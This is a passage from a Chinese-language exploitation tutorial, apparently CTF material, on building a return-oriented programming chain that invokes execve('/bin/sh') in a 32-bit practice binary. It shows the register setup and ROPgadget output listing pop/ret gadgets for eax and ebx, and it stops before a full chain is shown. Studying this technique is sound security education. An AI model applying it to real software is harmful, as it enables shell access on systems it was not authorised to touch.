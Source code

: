 其中，该程序是 32 位，所以我们需要使得

-   系统调用号，即 eax 应该为 0xb

-   第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。

-   第二个参数，即 ecx 应该为 0

-   第三个参数，即 edx 应该为 0

而我们如何控制这些寄存器的值 呢？这里就需要使用 gadgets。比如说，现在栈顶是
10，那么如果此时执行了 pop eax，那么现在 eax 的值就为
10。但是我们并不能期待有一段连续的代码可以同时控制对应的寄存器，所以我们需要一段一段控制，这也是我们在
gadgets 最后使用 ret 来再次控制程序执行流程的原因。具体寻找 gadgets
的方法，我们可以使用 ropgadgets 这个工具。

首先，我们来寻找控制 eax 的 gadgets

	~/Desktop$ ROPgadget --binary rop --only 'pop|ret' | grep 'eax'

	0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret

	0x080bb196 : pop eax ; ret

	0x0807217a : pop eax ; ret 0x80e

	0x0804f704 : pop eax ; ret 3

	0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret

可以看到有上述几个都可以控制 eax，我选取第二个来作为 gadgets。

类似的，我们可以得到控制其它寄存器的 gadgets

	~/Desktop$ ROPgadget --binary rop --only 'pop|ret' | grep 'ebx'

	0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret

	0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret

	0x0805b6ed : pop ebp ; pop ebx ; pop esi ; pop edi ; ret

	0x0809e1d4 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret

	0x080be23f : pop ebx ; pop edi ; ret

	0x0806eb69 : pop ebx ; pop edx ; ret

	0x08092258 : pop ebx ; pop esi ; pop ebp ; ret

	0x0804838b : pop ebx ; pop esi ; pop edi ; pop ebp ; ret

	0x080a9a42 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x10

	0x08096a26 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x14

	0x08070d73 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc

	0x0805ae81 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4

	0x08049bfd : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8

	0x08048913 : pop ebx ; pop esi ; pop edi ; ret

	0x08049a19 : pop ebx ; pop esi ; pop edi ; ret 4
